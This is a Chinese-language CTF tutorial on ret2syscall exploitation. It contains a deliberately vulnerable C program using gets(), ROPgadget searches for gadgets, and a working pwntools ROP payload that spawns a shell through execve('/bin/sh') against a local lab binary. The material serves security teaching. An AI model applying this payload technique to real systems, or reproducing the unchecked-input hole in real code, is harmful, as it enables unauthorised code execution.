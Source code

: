 ```yaml
---
title: ret2syscall攻击技术示例
tags: [CTF, pwn, rop]
layout: post
categories: tutorials
---
```


# 什么是ret2syscall

ret2syscall即return to system call，与ret2text和ret2shellcode类似，即在返回地址处进行*系统调用*，关于系统调用，可以阅读维基百科上的相关介绍——[系统调用](https://zh.wikipedia.org/wiki/%E7%B3%BB%E7%BB%9F%E8%B0%83%E7%94%A8)

> Linux 的系统调用通过 int 80h 实现，用系统调用号来区分入口函数。操作系统实现系统调用的基本过程是：
> 1. 应用程序调用库函数（API）；
> 2. API 将系统调用号存入 EAX，然后通过中断调用使系统进入内核态；
> 3. 内核中的中断处理函数根据系统调用号，调用对应的内核函数（系统调用）；
> 4. 系统调用完成相应功能，将返回值存入 EAX，返回到中断处理函数；
> 5. 中断处理函数返回到 API 中；
> 6. API 将 EAX 返回给应用程序;
>
> 应用程序调用系统调用的过程是：
> 1. 把系统调用的编号存入 EAX；
> 2. 把函数参数存入其它通用寄存器；
> 3. 触发 0x80 号中断（int 0x80）。

# ret2syscall示例代码

``` c
#include <stdio.h>
#include <stdlib.h>

char *shell = "/bin/sh";

int main(void)
{
    setvbuf(stdout, 0LL, 2, 0LL);
    setvbuf(stdin, 0LL, 1, 0LL);

    char buf[100];

    printf("This time, no system() and NO SHELLCODE!!!\n");
    printf("What do you plan to do?\n");
    gets(buf);

    return 0;
}
```

本节示例的漏洞程序可以从此处下载：[ret2syscall](http://od7mpc53s.bkt.clouddn.com/ret2syscall)
# 漏洞分析

那么我们现在要通过系统调用执行以下命令获得一个shell
``` c
execve("/bin/sh", NULL, NULL)
```

那么很明显，我们需要完成的目标有如下：

* 获得execve的系统调用号
* 将execve的系统调用号赋给eax寄存器
* 将第一个参数"/bin/sh"的地址赋值给ebx寄存器
* 第二个参数NULL赋值给ecx寄存器
* 第三个参数NULL赋值给edx寄存器
* 触发 0x80 号中断(int 0x80)

关于各个函数的系统调用号，我们可以根据这个手册进行查询：[Linux Syscall Reference](http://syscalls.kernelgrok.com/)

我们可以查到execve的系统调用号为*0x0b*，而在系统调用时，eax是存放系统调用号，ebx,ecx,edx分别存放前3个参数，esi存放第4个参数，edi存放第5个参数，而Linux系统调用最多支持5个单独参数。如果实际参数超过5个，那么使用一个参数数组，并且将该数组的地址存放在ebx中。

那么我们如何将参数传递给各个寄存器呢？其实这里是利用到了 *ROP(Return-oriented programming)* 攻击技术，其实这是一种常见的代码复用技术，通过使用程序已有的机器指令(称之为gadget，注意，是机器指令)，来劫持程序控制流。

那么我们接下来就进行演示吧。我通常使用*ropgadget*来帮助搜索gadgets

首先是控制eax的gadget

``` bash
➜  ret2syscall ROPgadget --binary ret2syscall --only 'pop|ret' | grep 'eax'
0x0809ddda : pop eax ; pop ebx ; pop esi ; pop edi ; ret
0x080bb196 : pop eax ; ret
0x0807217a : pop eax ; ret 0x80e
0x0804f704 : pop eax ; ret 3
0x0809ddd9 : pop es ; pop eax ; pop ebx ; pop esi ; pop edi ; ret
```

这里我们选择使用`pop eax ; ret`控制eax寄存器

```bash
0x080bb196 : pop eax ; ret
```

同理我们选择了下面这条gadgets，可以一次控制3个寄存器
``` bash
➜  ret2syscall ROPgadget --binary ret2syscall --only 'pop|ret' | grep 'ebx' | grep 'ecx' | grep 'edx'
0x0806eb90 : pop edx ; pop ecx ; pop ebx ; ret
```
接下来我们要查询`"/bin/sh"`以及`int 0x80`的地址

``` bash
➜  ret2syscall ROPgadget --binary ret2syscall --string "/bin/sh"
Strings information
============================================================
0x080be408 : /bin/sh
➜  ret2syscall ROPgadget --binary ret2syscall --only 'int'
Gadgets information
============================================================
0x08049421 : int 0x80
0x080938fe : int 0xbb
0x080869b5 : int 0xf6
0x0807b4d4 : int 0xfc

Unique gadgets found: 4
```


通常我们gadget的利用方法是`address of gadget + param for register`，那么接下来我们可以构造对应参数进行系统调用

# 攻击代码

``` python
#encoding:utf-8
from pwn import *

pop_eax_ret = 0x080bb196
pop_edx_ecx_ebx_ret = 0x0806eb90
bin_sh = 0x080be408
int_0x80 = 0x08049421

payload = 'A' * 112#用以往定位偏移的方法得到
payload += p32(pop_eax_ret) + p32(0x0b)
payload += p32(pop_edx_ecx_ebx_ret) + p32(0x00) + p32(0x00) + p32(bin_sh)
payload +=p32(int_0x80)

io = process('ret2syscall')
io.sendline(payload)
io.interactive()
```

这样我们就通过控制寄存器传入参数，模拟了系统调用执行`execve("/bin/sh", NULL, NULL)`的过程
